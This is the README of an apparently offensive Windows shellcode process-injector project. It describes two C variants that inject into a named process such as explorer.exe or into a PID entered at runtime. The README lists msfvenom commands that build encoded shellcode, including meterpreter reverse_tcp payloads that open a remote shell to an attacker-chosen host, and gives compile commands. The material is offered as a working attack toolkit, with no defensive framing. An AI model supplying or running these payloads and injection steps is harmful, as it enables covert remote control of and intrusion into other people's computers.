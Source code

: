 # Shellcode Process Injector

This project contains two variants of a shellcode injector for Windows that injects shellcode into a specified target process. The two versions differ in how they identify the target process for injection: one uses a hardcoded process name, and the other allows the user to specify a process ID (PID) at runtime.

## Variants

1. **Shellcode_ProcessInjector_auto.c**
   - This variant injects shellcode into a target process specified by changing the `processName` variable in the code.
   - Example target process: `explorer.exe`
   - Shellcode used to open `calc.exe`:
     ```c
     //msfvenom -p windows/x64/exec cmd=calc.exe -f c -e x64/zutto_dekiru
     ```
   - Shellcode for `meterpreter/reverse_tcp` (64-bit):
     ```c
     //msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

2. **Shellcode_ProcessInjector_manual.c**
   - This variant allows the user to specify the target process at runtime by entering its PID.
   - Example shellcode used to open `calc.exe` on a 32-bit application:
     ```c
     //msfvenom -p windows/exec cmd=calc.exe -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
   - Shellcode for `meterpreter/reverse_tcp` (32-bit):
     ```c
     //msfvenom -p windows/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x86/shikata_ga_nai
     ```
   - Shellcode for `meterpreter/reverse_tcp` (64-bit):
     ```c
     //msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

## Requirements

- Windows OS
- Visual Studio or a compatible C compiler
- `msfvenom` from the Metasploit Framework

## Compilation

To compile the variants, use the following command:

```bash
gcc -o Shellcode_ProcessInjector_auto Shellcode_ProcessInjector_auto.c
gcc -o Shellcode_ProcessInjector_manual Shellcode_ProcessInjector_manual.c
